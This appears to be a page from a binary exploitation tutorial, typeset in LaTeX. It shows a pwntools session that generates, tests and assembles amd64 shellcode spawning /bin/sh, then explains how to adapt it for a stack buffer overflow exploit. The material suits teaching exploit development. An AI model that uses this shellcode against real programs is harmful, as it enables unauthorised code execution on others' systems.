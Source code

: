 \documentclass{article}
\begin{document}
\begin{lstlisting}
>>> from pwn import *
>>> context.arch = "amd64"
>>> shellcode = shellcraft.sh()
>>> print shellcode
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall

>>> shell = run_assembly(shellcode)
[*] '/tmp/pwn-asm-EIMiA2/step3'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
[x] Starting local process '/tmp/pwn-asm-EIMiA2/step3'
[+] Starting local process '/tmp/pwn-asm-EIMiA2/step3': pid 22248
>>> shell.interactive()
[*] Switching to interactive mode
whoami
devneal
exit
[*] Got EOF while reading in interactive

[*] Process '/tmp/pwn-asm-EIMiA2/step3' stopped with exit code 0 (pid 22248)
[*] Got EOF while sending in interactive
>>> asm(shellcode)
'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814\$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
>>> 
\end{lstlisting}

Both the \texttt{shellcraft} and \texttt{asm} modules behave differently
depending on which architecture is required. We specify the amd64 architecture
with \texttt{context.arch = "amd64"}. \texttt{shellcraft.amd64.sh()} returns
shellcode for the target architecture. We can test that this (or any other
assembly) works by passing it to \texttt{run\_assembly()} and verify that it
spawns a shell. If we pass the shellcode to \texttt{asm()}, it will assemble
those instructions and return the resulting machine code. This is the machine
code we'll use in our exploit.

There is one more detail to be aware of before we can start writing. After we
overflow the buffer and the program executes the \texttt{ret} instruction at the
end of \texttt{main()}, the stack pointer will point one machine word below our
guessed address. But the shellcode includes seven \texttt{push} instructions.
This means that if we try to use this exploit naively the shellcode will
overwrite itself as it executes, resulting in a crash. To remedy this, we first
add 7 machine words worth of space to \texttt{rsp} before running the shellcode.
\end{document}
